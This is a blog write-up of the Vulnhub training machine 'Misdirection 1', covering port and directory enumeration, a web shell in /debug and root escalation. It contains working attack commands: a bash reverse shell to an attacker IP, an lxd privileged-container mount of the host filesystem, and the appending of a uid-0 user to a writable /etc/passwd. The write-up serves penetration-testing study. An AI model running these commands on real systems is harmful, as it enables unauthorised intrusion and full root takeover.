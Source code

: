 +++
title = "Vulnub: Misdirection 1"
date = "2021-04-21"
author = ""
authorTwitter = "" #do not include @
tags = ["Beginner", "Vulnhub", "OSCP Prep", "Sudo", "lxd", "Writeable Passwd"]
keywords = ["", ""]
description = ""
showFullContent = false
draft = false
cover = "/img/misdirection1/misdirection.png"
images = ["/img/misdirection1/misdirection.png"]
+++



| Difficulty | Release Date | Author |
| ---------- | ------------ | ------ |
| Beginner | 24 Sep 2019 | FalconSpy | 

## Summary

For this box, initial access was a web shell discovered. Then with low priv shell we could run bash as brexit user
and were able to pivot to that account. Once we are brexit user, we abuse his membership to the lxd to start a 
privileged container that can read and write the whole file system by mounting it in the container.

## Reconnaissance

Nmap

```sh
Nmap scan report for 192.168.191.136
Host is up (0.00032s latency).
Not shown: 65531 closed ports
PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
80/tcp   open  http    Rocket httpd 1.2.6 (Python 2.7.15rc1)
3306/tcp open  mysql   MySQL (unauthorized)
8080/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
```
## Enumeration

### 8080 (HTTP)

Nmap

```sh
# Nmap 7.91 scan initiated Wed Apr 14 06:31:44 2021 as: nmap -n -Pn -sV -p 8080 --script default,http-enum,http-shellshock,http-backup-finder,http-config-backup --append-output -oN recon-misdirection1/misdirection1-8080-httpnmap.enum 192.168.191.136
Nmap scan report for 192.168.191.136
Host is up (0.00026s latency).

PORT     STATE SERVICE VERSION
8080/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
| http-enum:
|   /wordpress/: Blog
|   /wordpress/wp-login.php: Wordpress login page.
|   /css/: Potentially interesting directory w/ listing on 'apache/2.4.29 (ubuntu)'
|   /debug/: Potentially interesting folder
|   /development/: Potentially interesting directory w/ listing on 'apache/2.4.29 (ubuntu)'
|   /help/: Potentially interesting directory w/ listing on 'apache/2.4.29 (ubuntu)'
|   /images/: Potentially interesting directory w/ listing on 'apache/2.4.29 (ubuntu)'
|   /js/: Potentially interesting directory w/ listing on 'apache/2.4.29 (ubuntu)'
|   /manual/: Potentially interesting directory w/ listing on 'apache/2.4.29 (ubuntu)'
|_  /scripts/: Potentially interesting directory w/ listing on 'apache/2.4.29 (ubuntu)'
|_http-server-header: Apache/2.4.29 (Ubuntu)
|_http-title: Apache2 Ubuntu Default Page: It works
```

ffuf

```sh
ffuf -ic -c -u http://192.168.191.136:8080/FUZZ -w /usr/share/seclists/Discovery/Web-Content/raft-small-directories.txt -t 50 
```

```sh
js                      [Status: 301, Size: 322, Words: 20, Lines: 10]
help                    [Status: 301, Size: 324, Words: 20, Lines: 10]
wordpress               [Status: 301, Size: 329, Words: 20, Lines: 10]
manual                  [Status: 301, Size: 326, Words: 20, Lines: 10]
debug                   [Status: 301, Size: 325, Words: 20, Lines: 10]
development             [Status: 301, Size: 331, Words: 20, Lines: 10]
shell                   [Status: 301, Size: 325, Words: 20, Lines: 10]
images                  [Status: 301, Size: 326, Words: 20, Lines: 10]
css                     [Status: 301, Size: 323, Words: 20, Lines: 10]
scripts                 [Status: 301, Size: 327, Words: 20, Lines: 10]
server-status           [Status: 403, Size: 305, Words: 22, Lines: 12]
                        [Status: 200, Size: 10918, Words: 3499, Lines: 376]
```

After some directory bruteforcing on both port 80 and 8080 I discovered several directories. On port 8080 the debug directory
contains a web shell.

{{< image src="/img/misdirection1/misdirection-1.png" alt="" position="center" style="border-radius: 8px;" >}}

## Shell as www-data

Supplying the following command we are able to get a reverse shell.

```sh
bash -c 'bash -i >& /dev/tcp/192.168.191.1/9000 0>&1 &'
```
shell:

{{< image src="/img/misdirection1/misdirection-2.png" alt="" position="center" style="border-radius: 8px;" >}}

After some basic enumeration we discover www-data has sudo permissions to run /bin/bash as brexit user without
any password requirement.

{{< image src="/img/misdirection1/misdirection-3.png" alt="" position="center" style="border-radius: 8px;" >}}

## Shell as brexit

```sh
sudo -u brexit /bin/bash
```

{{< image src="/img/misdirection1/misdirection-4.png" alt="" position="center" style="border-radius: 8px;" >}}

On running id we see that brexit is in the lxd group and no images are present.

{{< image src="/img/misdirection1/misdirection-10.png" alt="" position="center" style="border-radius: 8px;" >}}

## Shell as root

Brexit being in the lxd group allows for privilege escalation. First we need to add am image then create a container.

First we need to get distrobuilder, the compile it. This uses go to compile therefore you need go to be installed.

```sh
wget https://github.com/lxc/distrobuilder/archive/refs/tags/distrobuilder-1.2.zip
7z x distrobuilder-1.2.zip
cd distrobuilder-distrobuilder-1.2 
make
```

You can use go get as the repo instructions recommend but for me it didn't work as expected.

With distrobuilder ready, download the alpine image yaml file to build a small alpine image for lxd

```sh
wget https://raw.githubusercontent.com/lxc/lxc-ci/master/images/alpine.yaml
```
Then run distrobuilder with the alpine yaml file as below.

```sh
sudo ~/bin/distrobuilder build-lxd alpine.yaml -o image.release=3.8
```
This will result in two files: lxd.tar.xz and rootfs.squashfs.

We then need to transfer this two files to our victim for privesc.

```sh
# on kali

python3 -m http.server

# on victim

wget 192.168.191.1:8000/lxd.tar.xz
wget 192.168.191.1:8000/rootfs.squashfs
lxc image import lxd.tar.xz rootfs.squashfs --alias alpine
lxc image list
```

{{< image src="/img/misdirection1/misdirection-5.png" alt="" position="center" style="border-radius: 8px;" >}}

After adding the image we need to run lxd init and can keep everything default.

```sh
lxd init
```

{{< image src="/img/misdirection1/misdirection-7.png" alt="" position="center" style="border-radius: 8px;" >}}

Then create the container to be privileged and mount the host os file system inside it.

```sh
lxc init alpine privesc -c security.privileged=true
lxc config device add privesc host-root disk source=/ path=/mnt/root recursive=true
lxc start privesc
lxc exec privesc /bin/sh
```
With this we can read the host file system from inside the container and can read root.txt.

{{< image src="/img/misdirection1/misdirection-8.png" alt="" position="center" style="border-radius: 8px;" >}}

To get shell as root I added a public key to authorized_keys of the root user and can ssh in as root.

{{< image src="/img/misdirection1/misdirection-9.png" alt="" position="center" style="border-radius: 8px;" >}}

## Extras

After looking at other writeups, there was another easy privesc that I didn't explore.

- Writeable /etc/passwd file

The passwd file is writeable by the users in the brexit group.

{{< image src="/img/misdirection1/misdirection-11.png" alt="" position="center" style="border-radius: 8px;" >}}

We can add user with id 0 that will give us root privileges.

```sh
openssl passwd -1 -salt user password123

echo 'user:$1$user$nY3qj2koDQU1.5HG4ZTj9/:0:0:User:/root:/bin/bash' >>/etc/passwd
```

{{< image src="/img/misdirection1/misdirection-12.png" alt="" position="center" style="border-radius: 8px;" >}}

## References

```
https://rioasmara.com/2021/01/29/privilege-escalation-with-lxd/

https://www.hackingarticles.in/lxd-privilege-escalation/

https://book.hacktricks.xyz/linux-unix/privilege-escalation#writable-etc-passwd
```
